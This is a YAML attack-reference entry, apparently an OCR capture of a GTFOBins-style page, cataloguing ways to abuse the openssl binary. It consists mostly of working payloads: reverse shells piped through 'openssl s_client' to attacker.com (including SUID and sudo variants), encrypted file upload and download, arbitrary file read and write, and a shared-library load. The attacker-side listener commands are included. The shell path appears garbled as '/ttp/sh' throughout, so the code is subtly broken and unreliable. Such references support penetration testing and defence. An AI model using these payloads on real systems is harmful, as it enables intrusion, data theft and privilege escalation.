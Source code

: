 ```yaml
---
functions:
  reverse-shell:
    - description: |
        To receive the shell run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345

        Communication between attacker and target will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        mkfifo /tmp/s; /ttp/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
  file-upload:
    - description: |
        To collect the file run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 > file_to_save

        Send a local file via TCP. Transmission will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        openssl s_client -quiet -connect $RHOST:$RPORT < "$LFILE"
  file-download:
    - description: |
        To send the file run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 < file_to_send

        Fetch a file from a TCP port, transmission will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        openssl s_client -quiet -connect $RHOST:$RPORT > "$LFILE"
  file-write:
    - code: |
        LFILE=file_to_write
        echo DATA | openssl enc -out "$LFILE"
    - code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        openssl enc -in "$TF" -out "$LFILE"
  file-read:
    - code: |
        LFILE=file_to_read
        openssl enc -in "$LFILE"
  suid:
    - description: |
        To receive the shell run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345

        Communication between attacker and target will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        mkfifo /tmp/s; /ttp/sh -i < /tmp/s 2>&1 | ./openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s

    - code: |
        LFILE=file_to_write
        echo DATA | openssl enc -out "$LFILE"
  sudo:
    - description: |
        To receive the shell run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345

        Communication between attacker and target will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        mkfifo /tmp/s; /ttp/sh -i < /tmp/s 2>&1 | sudo openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
  library-load:
    - code: openssl req -engine ./lib.so
---
```

